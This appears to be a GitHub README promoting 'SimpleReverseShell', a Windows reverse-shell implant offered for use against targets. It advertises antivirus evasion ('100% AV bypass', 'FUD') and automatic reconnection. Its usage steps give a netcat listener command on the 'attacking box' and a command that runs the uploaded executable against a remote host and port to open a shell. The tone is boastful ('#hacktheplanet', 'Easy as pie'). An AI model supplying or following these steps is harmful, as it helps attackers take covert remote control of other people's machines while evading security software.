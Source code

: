# SimpleReverseShell
py based rev cmd shell w/bare minimal dependencies x86_x64

Rumored to be Miley's favorite command shell.

![alt tag](http://i.imgur.com/sqov7iX.jpg)

100% AV bypass

![alt tag](http://i.imgur.com/GlkEB0q.png)

Usage:
Start a generic listener on your attacking box to catch the incoming connection. 
#nc -lvp 58931

![alt tag](http://i.imgur.com/j2aG99m.png)

Upload srs.exe to your Windows target (x86 or x64) and specifiy a remote host and remote port 
#srs.exe 192.168.0.5 58931

![alt tag](http://i.imgur.com/0KDbncP.png)

The listener receives the shell and you may begin executing commands. #hacktheplanet

![alt tag](http://i.imgur.com/NVQqBOb.png)

Easy as pie. The core feature of the shell is it's resilience to CTRL+C sighups.
Additionally, the implant will re-iniatiate connection every 5 seconds if the socket dies. Ncat is a fantastic tool, but I find that the best software is the one that does one thing only and does that one thing well. Ergo srs. 

Public version sends traffic over clear-text, private version establishes an authenticated ssh style TLS tunnel.

Simple. Portable. Resilient. FUD.



